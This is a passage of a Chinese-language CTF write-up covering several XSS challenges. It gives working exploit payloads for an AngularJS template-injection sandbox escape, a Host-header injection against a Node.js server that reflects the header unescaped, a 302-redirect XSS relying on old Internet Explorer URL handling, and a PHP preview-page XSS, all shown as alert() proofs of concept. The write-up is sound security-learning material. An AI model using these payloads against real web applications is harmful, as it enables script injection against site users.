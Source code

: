 angularjs的环境，一直都想仔细研究下，但是无奈没时间来学angularjs，但是现在很流行这样的现代前段框架，这种漏洞的特点就是，前端页面是通过解析渲染来构造的，很多js不会出现的问题都出现了。

这里是一个小环境，页面内的ng-init是一个特殊意义的标签，他代表着页面内部分变量的声明，具体也不太好解释，可以自己去试试看。

exp
```
{{[].pop.constructor('alert()')()}}

http://xianzhi.aliyun.com/xss10.php?username=%7B%7B%5B%5D.pop.constructor(%27alert(1)%27)()%7D%7D
```

# 11 HOST #

```
"use strict";
var http = require('http');

(function(){
    http.createServer(function (req, res) {
            res.writeHead( 200, { "Content-Type" : "text/html;charset=utf-8", "X-XSS-Protection" : "0" } );
            res.end( '<html><head><title>' + req.headers["host"] + '</title></head><body>It works!</body></html>' );

    }).listen(80);
    console.log( "Running server on port 80" );
})();
```

这个题非常迷。。看完wp我的第一反应就是，还有这种操作...

放两篇文章
[https://labs.detectify.com/2016/10/24/combining-host-header-injection-and-lax-host-parsing-serving-malicious-data/](https://labs.detectify.com/2016/10/24/combining-host-header-injection-and-lax-host-parsing-serving-malicious-data/)

[http://blog.bentkowski.info/2015/04/xss-via-host-header-cse.html](http://blog.bentkowski.info/2015/04/xss-via-host-header-cse.html)

差不多意思就是在低版本的ie中，跳转过去的链接不会被urlencode...

exp
```
302.php?u=http://ec2-52-15-146-21.us-east-2.compute.amazonaws.com%252f<%252ftitle><script>alert(document.domain)<%252fscript><!--.baidu.com
```

# 12 preview #

没看过题，然后lemon把这部分的wp跳过了....

贴上exp
```
<?php
header("Content-Type: application/octet-stream");
?>
<html><script>alert(document.domain)</script></html>
```
